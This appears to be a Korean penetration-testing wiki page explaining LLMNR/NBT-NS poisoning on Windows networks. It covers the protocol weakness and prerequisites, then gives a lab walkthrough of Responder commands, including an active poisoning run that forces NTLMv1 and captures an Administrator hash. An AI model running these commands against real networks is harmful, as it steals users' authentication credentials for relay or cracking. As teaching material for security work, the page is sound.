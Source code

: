 # LLMNR/NBT-NS 포이즈닝

LLMNR/Nbt-NS Poisoning (포이즈닝) - 피해자 호스트의 이름 변화 LLMNR/Nbt-NS 브로드캐스트 요청을 받았을 때 공격자가 LLMNR/Nbt-NS 브로드캐스트 요청에 대답하는 공격이다. 피해자 호스트는 공격자 호스트를 자신이 찾던 호스트로 착각하게 되어 Net-NTLM 인증 트래픽을 공격자에게 보낸다.

### 개념

윈도우 워크스테이션과 서버 운영체제에는 LLMNR (Link-Local Multicast Name Resolution)과 Nbt-NS (Netbios Name Service) 라는 레거시 브로드캐스트 (broadcast) 이름 변환 (Name Resolution) 서비스들이 존재한다. 윈도우에서 HTTP나 내부망 쉐어, IP 주소등을 검색하거나 접근하려고 한다면 다음과 같은 우선순위를 기반으로 이름 변환을 시도한다.

1. IPv6 - DNS
2. IPv4 - DNS
3. LLMNR, Nbt-NS, mDNS 등의 레거시 브로드캐스트 이름 변환 서비스

예를 들어 윈도우에서 쉐어를 찾으려고 탐색기에서 `\\fileserver.choi.local\share` 를 검색하려다가 실수로 `\\wronghost.choi.local\share` 를 검색했다고 가정해보자. 그렇다면 현재 호스트는 IPv6 -> IPv4 -> LLMNR, Nbt-NS, mDNS 등의 순서대로 이 호스트를 찾으려고 한다.

![IPv4 -> Nbt-NS, mDNS, LLMNR](<../.gitbook/assets/image (32).png>)

### 문제점

문제는 LLMNR, Nbt-NS, mDNS 가 옛날에 만들어진, 보안을 생각하지 않고 만든 브로드캐스트 기반의 이름 변환 프로토콜이라는 것이다. 브로드캐스트이기 때문에 같은 서브넷내의 모든 호스트들이 "wronghost.choi.local 이신 호스트 대답 좀 해주세요" 라는 요청을 듣게 된다.

레거시 브로드캐스트 프로토콜들은 호스트/사용자 인증을 거치지 않기 때문에 공격자 호스트가 "wronghost.choi.local 찾으세요? 그거 저니까 저한테 사용자 인증 트래픽 보내주세요" 라고 대답할 때 피해자 호스트는 아무런 의심을 하지 않고 Net-NTLM 인증 트래픽을 공격자에게 보내게 된다.

### 공격

LLMNR/Nbt-NS 포이즈닝 공격을 통해 피해자 호스트로부터 받은 Net-NTLM 사용자 인증 트래픽은 다음과 같은 공격에 사용된다.

* NTLM 다운그레이드 공격 - Net-NTLMv1을 요청하거나 받은 Net-NTLMv1을 암호학적 공격으로 NTLM 해시로 다운그레이드 한 뒤 크래킹하는 공격
* NTLM 릴레이 공격 - 받은 Net-NTLM 인증 트래픽을 다른 호스트에게 릴레이 하는 공격
* RBCD (Resource Based Constrained Delegation) - TODO

LLMNR/Nbt-NS 포이즈닝과 NTLM 릴레이 공격을 하면 피해자 호스트에서 피해자 유저의 사용자 NTLM 인증 트래픽을 SMB 프로토콜 기반의 Net-NTLMv1 혹은 Net-NTLMv2 형식으로 받을 수 있다. 이 사용자 인증 트래픽은 위 공격들에 사용되며, 해당 공격들은 다른 페이지에 따로 서술한다.

### 전제 조건

* 현재 서브넷과 DNS로 이름 변환이 불가능한 호스트의 서비스 (대부분 SMB) 를 이용하려 피해자 호스트에서 피해자 유저가 검색한다.
  * 실수로 오타 (ex. flieserver), 옛날에 만들어뒀던 scheduled task, 호스트 이름이 바뀌었을 때, 등
* 피해자 호스트가 LLMNR/Nbt-NS 를 사용하도록 설정되어 있다 (윈도우 비스타 이후 기본적으로 활성화되어 있다).

### 실습

Responder 툴을 이용해 서브넷에서 LLMNR, Nbt-NS, mDNS 트래픽을 수동적으로 듣고만 있는다

```
# "Analyze" 모드를 이용, 포이즈닝을 하지않고 트래픽만 확인 
python3 Responder.py -I eth1 -v -A 

<...>
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[Analyze mode: NBT-NS] Request by ::ffff:192.168.40.150 for wronghost, ignoring 
[Analyze mode: LLMNR] Request by ::ffff:192.168.40.150 for wronghost, ignoring
```

트래픽을 듣고 있으니`192.168.40.150` 호스트가 Nbt-NS와 mDNS를 이용해 `wronghosts.local` 이라는 호스트를 찾고 있다.

이제 능동적으로 포이즈닝 공격을 진행해 피해자 호스트로부터 NTLM 사용자 인증 트래픽을 받아온다.

```
# ESS (SSP) 해제 시도와 함께 포이즈닝 공격 시작 
python3 Responder.py -I eth1 -v --disable-ess

<...>
[*] [MDNS] Poisoned answer sent to fe80::c092:c261:488a:c15c for name wronghost.local
[*] [LLMNR]  Poisoned answer sent to ::ffff:192.168.40.150 for name wronghost 
[SMB] NTLMv1-SSP Client   : fe80::c092:c261:488a:c15c                                                            
[SMB] NTLMv1-SSP Username : CHOI\Administrator                                                                   
[SMB] NTLMv1-SSP Hash     : Administrator::CHOI:06B1649C5 <...>
```

피해자 호스트 `192.168.40.150` 가 `wronghost.local` 이 공격자 호스트인줄 알고 NTLM 사용자 인증을 보내왔다. 이제 이 Net-NTLMv1 해시를 가지고 NTLM 릴레이, 다운그레이드, RBCD 공격을 할 수 있게 됐다.
